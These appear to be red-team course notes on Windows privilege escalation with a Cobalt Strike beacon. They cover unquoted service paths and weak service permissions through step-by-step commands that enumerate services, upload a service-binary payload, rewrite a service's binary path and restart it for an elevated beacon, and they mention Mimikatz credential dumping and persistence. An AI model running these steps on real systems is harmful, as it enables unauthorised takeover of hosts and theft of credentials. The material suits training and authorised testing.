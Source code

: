 # Host Privilege Escalation

Not always needed, but helps in lateral movement and doing high-priv naughty things. It should only be sought if it provides a means of reaching a goal, not something done for ego or cred. Some capabilities that can be done:

* Dumping creds with Mimikatz
* Sneaky persistence
* Manipulating host configuration (e.g. firewall)

Common entrypoints include software misconfigurations and missing patches. [SharpUp](https://github.com/GhostPack/SharpUp) can enumerate these.

## Windows Services

Just a startup application run by the OS. How to see:

* Open services.msc
* Command line: ```sc query```
* PS: ```Get-Service | fl```

Properties to look for:

* Binary Path
* Startup Type
* Service Status
* Log On As - highly-privileged services make escalation easy (need to restart service to apply -- sometimes need to wait until machine is restarted)
* Dependants/Dependencies

Remember to restore the service configuration once you are done.

## Unquoted Service Paths

The path to the service binary is not wrapped in quotes. Under specific conditions it can lead to an elevation of privilege.

From beacon: ```run wmic service get name, pathname```
If see something unquoted like ```VulnService1    C:\Program Files\Vulnerable Services\Service 1.exe```, vulnerable places to drop a binary (which would run before the real exe) would be:
1. C:\**Program.exe**
2. C:\Program Files\**Vulnerable.exe**
3. C:\Program Files\Vulnerable Services\**Service.exe**

Check for permission to write to those directories from beacon: ```powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl```

Or just use SharpUp: ```execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath```

Payloads that work here are the ones with ```svc``` in the name to be service binaries. Recommend using TCP beacons bound to localhost only for privilege escalations. The new beacon does not appear in the UI automatically, but should see the port used in the TCP listener is listening on 127.0.0.1. Then ```connect localhost <port>``` to link to beacon. To restore the service, simply delete Service.exe and restart the service.

## Weak Service Permissions

SharpUp may shows that a service is modifiable, but need to know what permissions are. [Get-ServiceAcl](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls) does this. From beacon: ```powershell Get-ServiceAcl -Name VulnService | select -expand Access```. Look for ChangeConfig, Start, and Stop privs.

From beacon:
1. ```run sc qc VulnService``` - validate path
2. ```mkdir C:\Temp```
3. ```cd C:\Temp```
4. ```upload C:\Payloads\tcp-local_x64.svc.exe```
5. ```run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe```
6. ```run sc qc VulnService``` - validate changed path
7. ```run sc stop VulnService```
8. ```run sc start VulnService```
9. ```connect localhost <port>```
10. To restore the original path: ```run sc config VulnService2 binPath= \""C:\Program Files\Vulnerable Services\Service 2.exe"\"```



